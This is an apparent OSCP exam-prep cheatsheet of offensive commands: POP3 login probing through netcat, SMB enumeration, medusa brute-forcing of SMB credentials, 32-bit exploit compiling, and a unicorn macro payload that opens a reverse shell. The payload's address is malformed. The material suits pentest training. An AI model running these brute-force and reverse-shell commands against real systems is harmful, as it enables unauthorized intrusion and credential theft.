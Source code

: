 # Another-OSCP-Cheatsheet
This is my personal OSCP cheatsheet that also "hopefully" would let me pass my exam. Any improvement is welcome :)

## POP3 enum
    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
    
## SMB enum
**SHARES**

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4				

## Kernel Cross-Compiling
Really helpful if you are facing an old-school 32-bit box (believe me, there's tons of them in OSCP Labs xd)
Choose the --static option wisely https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** is a great tool u NEED to use in your OSCP journey https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** If you are facing EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/				

